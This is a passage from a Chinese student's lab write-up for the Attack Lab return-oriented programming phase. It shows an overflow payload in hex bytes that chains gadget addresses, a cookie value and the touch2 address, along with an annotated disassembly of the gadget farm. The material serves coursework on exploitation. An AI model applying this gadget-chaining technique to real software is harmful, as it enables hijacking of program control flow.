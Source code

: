 ```c
//以上40字节填满缓冲区使之溢出，最开始还把touch2的栈内存当成getbuf的缓冲区内存大小了。。
25 1a 40 00 00 00 00 00//第一半指令的地址(popq)401a25
3c d4 9b 3b 00 00 00 00//我的cookie
37 1a 40 00 00 00 00 00//第二半指令的地址401a37
5d 18 40 00 00 00 00 00//touch2地址
```

![image-20211206164209664](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112061745443.png)

![image-20211206164409410](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112061745473.png)

- 下面为标注出来的指令位置：

```c
0000000000401a15 <start_farm>:
  401a15:	b8 01 00 00 00       	mov    $0x1,%eax
  401a1a:	c3                   	retq   

0000000000401a1b <setval_481>:
  401a1b:	c7 07 58 c3 b2 8b    	movl   $0x8bb2c358,(%rdi)
  401a21:	c3                   	retq   
/***************************************************************************/
0000000000401a22 <getval_452>:
  401a22:	b8 37 ce /*58 c3  对应指令：popq %rax*/       	mov    $0xc358ce37,%eax
  401a27:	c3                   	retq   

0000000000401a28 <getval_226>:
  401a28:	b8 58 91 90 90       	mov    $0x90909158,%eax
  401a2d:	c3                   	retq   
/****************************************************************/
0000000000401a2e <setval_330>:
  401a2e:	c7 07 /*48 89 c7 c3 对应指令 mov %rax , %rdi*/    	movl   $0xc3c78948,(%rdi)
  401a34:	c3                   	retq   

0000000000401a35 <addval_299>:
  401a35:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  401a3b:	c3                   	retq   

0000000000401a3c <setval_358>:
  401a3c:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  401a42:	c3                   	retq   

0000000000401a43 <getval_151>:
  401a43:	b8 48 89 c7 c7       	mov    $0xc7c78948,%eax
  401a48:	c3                   	retq   

0000000000401a49 <addval_489>:
  401a49:	8d 87 0d 58 90 c2    	lea    -0x3d6fa7f3(%rdi),%eax
  401a4f:	c3                   	retq   

0000000000401a50 <mid_farm>:
  401a50:	b8 01 00 00 00       	mov    $0x1,%eax
  401a55:	c3                   	retq   
```

![image-20211206173226319](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112061745499.png)

# Phase 5

只占5分。。。狗都不做。

其实是因为DDL太多了啊啊啊啊啊啊啊啊啊啊啊啊啊啊。呜呜呜呜呜呜呜呜呜呜呜呜呜呜。
